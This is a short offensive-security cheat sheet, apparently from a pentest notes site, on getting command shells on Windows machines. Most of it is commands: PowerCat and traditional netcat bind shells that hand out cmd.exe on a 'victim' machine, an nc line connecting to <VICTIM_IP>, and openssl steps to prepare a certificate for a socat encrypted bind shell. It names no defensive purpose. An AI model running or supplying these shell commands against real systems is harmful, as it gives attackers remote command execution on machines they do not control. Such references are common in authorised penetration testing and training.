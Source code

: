 # Windows Shells

## Shellgen

Shellgen is a tool that generates bind shells and reverse shells, it can help you when choosing a shell:

{% embed url="https://github.com/wixnic/shellgen" %}

## Bind Shells

### PowerCat

```
https://github.com/besimorhino/powercat

# Victim (listen)
. .\powercat.ps1
powercat -l -p 7002 -ep

# Connect from attacker
. .\powercat.ps1
powercat -c 127.0.0.1 -p 7002
```

Set up listener on the victim machine:

```
powercat -l -p 443 -e cmd.exe
```

Connect to the victim with:

```
nc <VICTIM_IP> 443
```

### Netcat Traditional

```
nc -nlvp 51337 -e cmd.exe
```

## Encrypted Bind Shells

* `socat`:

```bash
# Generate a certificate
openssl req -newkey rsa:2048 -nodes -keyout bind_shell.key -x509 -days 362 -out bind_shell.crt
# Convert into a format socat will accept
cat bind_shell.key bind_shell.crt > bind_shell.pem
```
